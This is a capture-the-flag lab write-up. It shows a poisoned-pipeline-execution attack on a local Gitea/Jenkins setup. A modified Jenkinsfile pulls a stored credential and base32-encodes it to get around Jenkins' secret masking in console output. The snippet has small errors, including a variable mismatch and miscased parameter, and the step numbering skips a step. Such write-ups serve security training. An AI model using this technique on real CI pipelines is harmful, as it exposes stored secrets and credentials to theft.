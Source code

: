 After accessing the Gitea hosted locally on port 3000 with the credentials  
```
username : thealice
password : thealice
```
We need to follow these steps :

`1`  Clone the white rabbit repository 
```
git clone repo_link
```
`2` Create a new branch to modify the JenkinsFile 
> The JenkinsFile conatins the pipeline's jobs auotamatically executed by the jenkins server, so within this file, we will perform our PPE (pipeline poisoning execution) to retrieve the requested flag from the credentials store.
```
git checkout -b 'white-rabbit-challenge1'
```
Now, open the JenkinsFile with your favorite TextEditor and let's dive into the fun stuff. Modify the stage and its steps to look like :
```
stage ('displaying flag'){
	steps{
	withCredentials([string(credentialsID: 'flag1', variable: 'FLAG')]) {
	sh
	'''
		echo $flag1 | base32
	'''
	}
	}
}
```
> We used base32 encoding because when asked to standard output secrets or credentials, jenkins' output console will automatically display *** instead of the actual content of the secret in order not to accidentally expose sensitive informations so we encoded it to be able to retrieve it later

`4` Commit and Push the changes to the original repository

`5` Log in to Jenkins hosted locally on port 8080, and check the build history section corresponding to the white rabbit repository, you will find the build results on the output console.

`6` Base32 decode your flag and submit it.


